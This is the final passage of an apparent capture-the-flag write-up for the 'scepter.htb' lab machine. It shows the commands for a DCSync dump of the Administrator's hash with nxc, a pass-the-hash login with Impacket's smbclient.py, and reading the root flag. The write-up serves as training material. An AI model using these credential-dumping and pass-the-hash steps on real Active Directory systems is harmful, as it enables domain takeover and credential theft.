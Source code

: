 Finnaly, just DCSync, retrieve the admin hash and grab the flag

```bash
➜ export KRB5CCNAME=p.adams.ccache

➜ nxc smb scepter.htb --use-kcache --ntds --user Administrator

➜ smbclient.py scepter.htb/'Administrator'@10.129.28.117 -hashes :'a2...c4'

Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Type help for list of commands
# use C$
# cat Users/Administrator/Desktop/root.txt
```
<img src="../assets/gif/xt.gif" alt="yay" width="550">

If you have any questions, you can dm me on [twitter](https://x.com/ethicxz) or on discord at : 'ethicxz.'